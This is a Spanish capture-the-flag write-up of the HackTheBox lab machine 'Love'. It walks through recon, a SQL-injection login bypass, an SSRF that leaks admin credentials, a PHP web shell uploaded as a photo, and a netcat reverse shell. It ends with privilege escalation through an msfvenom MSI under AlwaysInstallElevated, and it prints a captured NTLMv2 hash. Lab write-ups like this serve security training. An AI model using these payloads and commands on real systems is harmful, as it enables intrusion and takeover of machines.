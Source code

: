 # 10.10.10.239 - Love

![Love](https://user-images.githubusercontent.com/96772264/197388747-319cf1cf-6a22-4e92-aecf-e255da52f783.png)

-------------------

# Parte 1 - Reconocimiento

Tenemos abiertos los puertos: 80 (http) ,135(rpc),139(smb tambien),443,445(smb),3306(sql),5000,5040,5985,5986,7680

### Nmap -> escaneo de servicios

```sudo nmap -sCV -T5 -p443,445,3306,5000,5040,5985,5986,7680 10.10.10.239```
Las conclusiones que nos da Nmap son estas:
- El puerto 443 da error 403 Forbidden, pero es un Apache 2.4.46 con PHP 7.3.27.
- Tenemos el dominio staging.love.htb y la empresa se llama *ValentineCorp*
- Por smb tenemos que el sistema se llama LOVE y el Workgroup es WORKGROUP
- Puerto 5000, lo mismo que en el 443, error 403 y Apache 2.4.46/PHP 7.3.27.
 

### Puerto 80:
└─$ whatweb http://10.10.10.239
http://10.10.10.239 [200 OK] Apache[2.4.46], Bootstrap, Cookies[PHPSESSID], OpenSSL/[1.1.1j] PHP[7.3.27], IP[10.10.10.239], JQuery, PasswordField[password], Script, Title[Voting System using PHP]

### Puerto 445 y 139:

No podemos acceder sin creds a ninguno.
```console
└─$ smbclient -L 10.10.10.239 -N 
session setup failed: NT_STATUS_ACCESS_DENIED
└─$ rpcclient -U "" 10.10.10.239 -N
Cannot connect to server.  Error was NT_STATUS_ACCESS_DENIED
```
### Puerto 443 
La web da forbidden, pero al tener ssl ```openssl s_client -connect love.htb:443``` obtenemos el mail de 
roy@love.htb.

```rpcclient -U "roy" 10.10.10.239 -N # NT_STATUS_LOGON_FAILURE```
Pero intentar bruteforcear la contraseña no da resultado: ```crackmapexec smb 10.10.10.239 -u "roy" -p /usr/share/wordlists/rockyou.txt```

-------------------------

# Parte 2: Reconocimiento web.

![lovehtb_1](https://user-images.githubusercontent.com/96772264/197388800-902b1bae-7d9a-4ee9-b064-95ab048cdd3a.PNG)


Como esto bien decia, la web http://10.10.10.239 / http://love.htb tiene el formulario este de "php voting system"
Peticion -> POST a /login.php voter=123&password=123&login= PHPSESSID="8uonobi5kr3p0cvm2hir2o2g63"
Nos ha dado que "Cannot find voter with the ID" cosa que me incita a fuzzear este mismo.

```console
└─$ hydra -L ./numbers.txt -p test love.htb https-post-form "/login.php:voter=^USER^&password=^PASS^:F=Cannot find voter with the ID" 
```
Pero tras un rato nada.

En la seccion de comentarios hay ```<!-- WARNING: Respond.js doesn't work if you view the page via file:// -->``` Pero la ruta "/js/Respond.js" da error 404.

Como no he podido fuzzear el Voting System (y para la ruta staging tambien), queda buscarle en el searchsploit.
```searchsploit Voting System``` Hay varios para autenticarse mediante SQLI, uno de ellos dice de poner
```admin:' or ''='``` a */admin* pero no dio resultado. En cambio otro mas largo si
```login=yea&password=admin&username=dsfgdf' UNION SELECT 1,2,"$2y$12$jRwyQyXnktvFrlryHNEhXOeKQYX7/5VK2ZdfB9f/GcJLuPahJWZ9K",4,5,6,7 from INFORMATION_SCHEMA.SCHEMATA;-- -```

Lo del medio que envia parece un formato de hash a juzgar por los "$". Una vez en la web del Voting system tenemos que el usaurio se llama "Neovic Devierte" 
(puede que nos sirva para los otros servicios).

![lovehtb_2](https://user-images.githubusercontent.com/96772264/197388822-dfcecd45-a2bf-449d-b0dc-9a3128dcfebf.PNG)

Hay otro exploit que habla de un file upload en /candidates.php, no esta nada sanitizado, pero si intento subir
algo me da problemas el campo de *Position*. 

![lovehtb_3](https://user-images.githubusercontent.com/96772264/197388834-55fac078-1160-46fb-90d0-008d2d35d63c.PNG)

En staging.love.htb hay un campo para peticiones.
Si le pido que se la haga a mi servidor me responde

![lovehtb_4](https://user-images.githubusercontent.com/96772264/197388841-1fa009bb-4a4f-401b-b5ba-febcf8b73caf.PNG)

└─$ sudo python3 -m http.server   
[sudo] password for cucuxii:
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.239 - - [23/Oct/2022 10:56:37] "GET / HTTP/1.1" 200 -
10.10.10.239 - - [23/Oct/2022 10:59:11] "GET /shell.php HTTP/1.1" 200 -

Pero el php no lo interpreta. 
Si se lo pido al loscalhost me sale el formulatio del Voting System. Teniamos varias paginas Forbidden.

La web del puerto 443 no me deja verla ```http://127.0.0.1:443 o https://127.0.0.1:443``` Pero la del 5000 si. Nos dan las creds "admin:@LoveIsInTheAir!!!!" 
Con el puerto 80 dichas creds nos llevan a la web de antes (que seguimos teniendo problema con subir el Candidato)

![lovehtb_5](https://user-images.githubusercontent.com/96772264/197388860-915adddc-f7f3-4fc5-8ac4-f873ffa98392.PNG)

Tampoco nos sirven para el smb ni para admin ni para roy.

En la web aparte de subir Candidatos puedes subir Votantes, ahí no hay ningun campo que nos de problemas.
Subí el cmd.php y en la lista de Votantes me salió la foto (obviamente como es un shell.php no se muestra tal)

![lovehtb6](https://user-images.githubusercontent.com/96772264/197388876-34ff9dc0-cad2-4dbe-9f14-9dcc5051c6ec.PNG)

¿Pero donde está la backdoor? Como se subió en el campo de *foto*, al darle a *copy image location* 
```http://love.htb/images/shell.php?cmd=whoami```

Como tenemos ejecucion remota de comandos, ahora solo tenemos que ejecutar una reverse shell (y escuchar por netcat). 

La reverse shell seria esta:


```console
└─$ sudo nc -nlvp 443
whoami
love\phoebe
PS C:\xampp\htdocs\omrs\images> 
```

```console
└─$ impacket-smbserver carpeta $(pwd) -smb2support
[*] Phoebe::LOVE:aaaaaaaaaaaaaaaa:f61b6d088db119ce592bb4d0a56f709b:010100000000000000718863cde6d8019d6b0265e2c0f8150000000001001000730065006a00720067004f004c006c0003001000730065006a00720067004f004c006c000200100053005200610071005900410051004d000400100053005200610071005900410051004d000700080000718863cde6d80106000400020000000800300030000000000000000000000000200000dc7b78e8b0b71bd6254ed079cc9343e57d00d68f7334579eb372fe74b4607ffe0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310035000000000000000000

PS C:\xampp\htdocs\omrs\images> copy \\10.10.14.15\carpeta\enumeracion_windows.bat . 
```



Nuestro script nos dice que:
- Usuarios: Administrator, Phoebe
- El always Install elevated está activado

La manera de explotar esto es 
```console
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.15 LPORT=666 -f msi -o reverse.msi
Saved as: reverse.msi
PS C:\xampp\htdocs\omrs\images> copy \\10.10.14.15\carpeta\reverse.msi .
msiexec /quiet /qn /i C:\xampp\htdocs\omrs\images\reverse.msi
└─$ sudo nc -nlvp 666
C:\WINDOWS\system32>whoami
whoami
nt authority\system
```

